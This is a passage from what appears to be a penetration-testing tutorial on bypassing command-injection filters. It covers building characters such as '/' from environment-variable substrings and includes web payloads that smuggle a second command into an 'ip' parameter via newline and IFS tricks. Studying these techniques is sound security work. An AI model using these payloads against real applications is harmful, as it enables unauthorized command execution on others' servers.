 **Payload Fragmentation:**
```bash
# Split payloads across multiple variables
p1=${PATH:0:1}
p2=home
ls ${p1}${p2}
```

---

## Comprehensive Testing Methodology

### Character Discovery Process

**Step 1: Environment Enumeration**
```bash
# List all environment variables
printenv | head -20

# Search for target characters
printenv | grep "/" | head -5
printenv | grep ";" | head -5
printenv | grep "&" | head -5
```

**Step 2: Position Mapping**
```bash
# Map character positions in promising variables
echo "${PATH}" | sed 's/./&\n/g' | nl    # Number each character
echo "${LS_COLORS}" | sed 's/./&\n/g' | nl
```

**Step 3: Extraction Testing**
```bash
# Test extractions locally
echo ${PATH:0:1}     # Test position 0
echo ${PATH:1:1}     # Test position 1
echo ${PATH:4:1}     # Test position 4
```

**Step 4: Web Application Testing**
```http
# Test in target application - Explicit syntax
ip=127.0.0.1%0aecho${IFS}${PATH:0:1}
ip=127.0.0.1%0als${PATH:0:1}home

# Test alternative syntax variations
ip=127.0.0.1%0aecho$IFS${PATH:0:1}         # Short IFS syntax
ip=127.0.0.1%0als$IFS${PATH:0:1}home       # Mixed syntax
ip=127.0.0.1%0aecho"${IFS}"${PATH:0:1}     # Quoted syntax
```

### Payload Development Template
